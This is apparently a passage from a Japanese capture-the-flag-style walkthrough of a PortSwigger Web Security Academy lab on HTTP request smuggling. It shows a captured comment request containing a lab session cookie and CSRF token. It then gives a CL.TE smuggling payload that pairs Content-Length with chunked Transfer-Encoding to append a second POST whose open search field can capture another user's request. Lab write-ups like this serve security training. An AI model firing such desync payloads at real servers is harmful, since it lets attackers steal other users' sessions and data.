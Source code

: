 requestを見てみると、csrfトークンがありここを利用するのは厳しいことがわかります。

* CSRF Tokenは自身のセッションと紐付いていて、必須とすることにします。(検査はめんどくさいのでしません)

```text
POST /post/comment HTTP/2
Host: 0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Cookie: session=hUxeBil3nhGJvOCkymaQ10JToOjE6Zz6
Content-Length: 100
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a65001703bbaaa2800735c900ba00c3.web-security-academy.net/post?postId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8

csrf=kJ8J3422tN0oHUPegZ0X7mrOx85vIZqV&postId=1&comment=a&name=test&email=test%40example.com&website=
```

他に入力値が反映しそうな部分はSearch部分です。

こいつにはcsrf tokenが無いためここを利用することにします。

```text
POST / HTTP/1.1
Host: 0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

search=
```
